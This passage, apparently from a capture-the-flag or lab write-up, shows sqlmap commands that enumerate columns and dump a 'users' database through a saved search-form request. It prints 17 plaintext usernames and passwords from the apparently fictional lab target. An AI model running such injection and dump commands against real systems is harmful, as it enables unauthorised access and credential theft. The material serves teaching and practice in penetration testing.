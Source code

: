 ```console
+----------+-----------------+
| Password | varchar(255)    |
| UserID   | int(6) unsigned |
| Username | varchar(255)    |
+----------+-----------------+
...
```

For *users* database:

```console
$ sqlmap -r search_form.txt --columns -D users
...
[16:45:15] [INFO] fetching tables for database: 'users'
[16:45:15] [INFO] fetching columns for table 'UserDetails' in database 'users'
Database: users
Table: UserDetails
[6 columns]
+-----------+-----------------+
| Column    | Type            |
+-----------+-----------------+
| firstname | varchar(30)     |
| id        | int(6) unsigned |
| lastname  | varchar(30)     |
| password  | varchar(20)     |
| reg_date  | timestamp       |
| username  | varchar(30)     |
+-----------+-----------------+
...
```

Last thing, we can also **dump** the data from these tables.
For *users* database:

```console
$ sqlmap -r search_form.txt --dump -D users -T UserDetails
...
[16:48:21] [INFO] fetching columns for table 'UserDetails' in database 'users'
[16:48:21] [INFO] fetching entries for table 'UserDetails' in database 'users'
Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
...
```
